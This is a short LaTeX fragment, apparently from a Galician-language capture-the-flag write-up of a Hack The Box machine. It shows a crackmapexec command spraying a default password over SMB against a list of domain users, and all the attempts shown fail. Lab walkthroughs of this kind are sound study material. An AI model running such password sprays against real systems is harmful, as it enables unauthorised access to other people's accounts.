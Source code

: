 \documentclass[a4paper]{article}
\newcommand{\ipTarget}{10.10.10.248}
\begin{document}
Entón imos probar se algún dos usuarios existentes no dominio non modificou o contrasinal:
        \begin{lstlisting}[language=Bash, caption=Usuario/s con contrasinal por defecto, linewidth=18.7cm]
$ crackmapexec smb ¬\ipTarget¬ -u creators.txt -p 'NewTemplateCorpUser9876' --continue-on-success
SMB   10.10.10.248 445 DC   [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:template.htb) (signing:True) (SMBv1:False)
SMB   10.10.10.248 445 DC   [-] template.htb\Anita.Roberts:NewTemplateCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] template.htb\Brian.Baker:NewTemplateCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] template.htb\Brian.Morris:NewTemplateCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] template.htb\Daniel.Shelton:NewTemplateCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] template.htb\Danny.Matthews:NewTemplateCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] template.htb\Darryl.Harris:NewTemplateCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] template.htb\David.Mcbride:NewTemplateCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] template.htb\David.Reed:NewTemplateCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] template.htb\David.Wilson:NewTemplateCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] template.htb\Ian.Duncan:NewTemplateCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] template.htb\Jason.Patterson:NewTemplateCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] template.htb\Jason.Wright:NewTemplateCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] template.htb\Jennifer.Thomas:NewTemplateCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] template.htb\Jessica.Moody:NewTemplateCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] template.htb\John.Coleman:NewTemplateCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] template.htb\Jose.Williams:NewTemplateCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] template.htb\Kaitlyn.Zimmerman:NewTemplateCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] template.htb\Kelly.Long:NewTemplateCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] template.htb\Nicole.Brock:NewTemplateCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] template.htb\Richard.Williams:NewTemplateCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] template.htb\Samuel.Richardson:NewTemplateCorpUser9876 STATUS_LOGON_FAILURE

\end{lstlisting}
\end{document}
